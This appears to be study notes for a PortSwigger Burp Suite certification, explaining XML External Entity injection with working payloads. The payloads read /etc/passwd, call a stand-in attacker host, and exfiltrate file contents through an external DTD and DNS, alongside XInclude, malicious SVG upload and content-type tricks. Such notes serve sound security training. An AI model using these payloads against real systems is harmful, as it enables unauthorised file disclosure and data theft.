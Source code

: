 ##### PortSwigger BurpSuite Certification Summary
# XML External Entity Injection
XML data might be used to retrieve information for which entities are defined. A form can look like this:
```
<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```
and can be altered to use an external document type definition (DTD) that defines an entity which accesses the file system:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
Similarly, requests to other hosts (see SSRF) can be made.

In case regular entities are not allowed, XML parameter entities might be. They are defined as follows:
```
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```
and the entity is referenced like this `%xxe;`.

### Blind XXE
A DTD file can be served on a host that is controlled by the attack and can be used to perform a DNS query. The DTD defines a call to the DNS server:
```
# exploit.dtd

<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'DNS-SERVER-ADDRESS/?x=%file;'>">
%eval;
%exfiltrate;
```
Which is triggered by a XXE injection:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://HOST/exploit.dtd"> %xxe;]>
<stockCheck><productId>%xxe;</productId><storeId>1</storeId></stockCheck>
```
##### Error Messages
Loading inexistent files will result in an error message which can be configured to display file content. Similarly to above, a malicious DTD file is hosted:
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```
and triggered the same way.

The reason for using external DTD is the heavy restriction in internal DTDs, which does not allow to define a parameter within another. If no external DTD can be used, it might still be possible to carry out an attack by **utilizing an internal DTD to redefine the external one** (requires a hybrid usage).

#### XInclude Attacks
This attack is useful when there is an XML document on the server which is, among other things, built up by some user input. `XInclude` offers the functionality to build XML files from others and therefore offers an attacker the opportunity to inject custom XML code:
```
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```
The upper line references the `XInclude` namespace, a necessety. The lower line then includes the content of a file of interest. As it is not an XML formatted file, the tag `parse="text"` is used. 

### XXE via File Upload
Certain file systems use XML in their data structure, such as **DOCX** and **SVG**. A file upload can therefore be abused to perform an XXE injection. The following code is an SVG image with malicious XML:
```
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```

### Change the Content Type
In some cases, multiple content types are supported. If this includes XML, it offers an attack surface for XXE injection. Changing the type is straightforward:
```
POST /action HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```
becomes
```
POST /action HTTP/1.0
Content-Type: text/xml
Content-Length: 52

<?xml version="1.0" encoding="UTF-8"?><foo>bar</foo>
```